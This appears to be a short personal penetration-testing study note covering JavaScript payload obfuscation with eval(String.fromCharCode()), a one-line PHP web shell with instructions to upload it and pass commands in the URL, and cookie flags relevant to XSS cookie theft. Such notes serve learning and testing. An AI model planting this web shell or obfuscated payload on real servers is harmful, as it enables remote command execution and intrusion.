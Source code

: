 **Tags:** #type/tech-specific 

---
# Javascript
`String.fromCharCode()`expects decimal charcodes --> when using [[3 Tools/defensive/Cyberchef|Cyberchef]], use base 10

use `eval(String.fromCharCode()) to execute encoded payload
# PHP
simple php webshell: `<?php echo system($_GET['cmd']); ?>`
takes shell command in the URL: upload file and then use `[url to file]?cmd=<command>`
# Cookies
## Relevant cookie flags
- `Secure`: Cookie can only be sent over encrypted connections
- `HttpOnly`: Browser denys javascript access to the cookie
	- If not set, the cookie can be read by javascript - e.g. to [[2 Tech-Specifics/Web/WebApp Attacks/Overview WebApp Attacks#Steal cookies|Steal a cookie]] using [[2 Tech-Specifics/Web/OWASP TOP 10/XSS Fundamentals|XSS Fundamentals]]
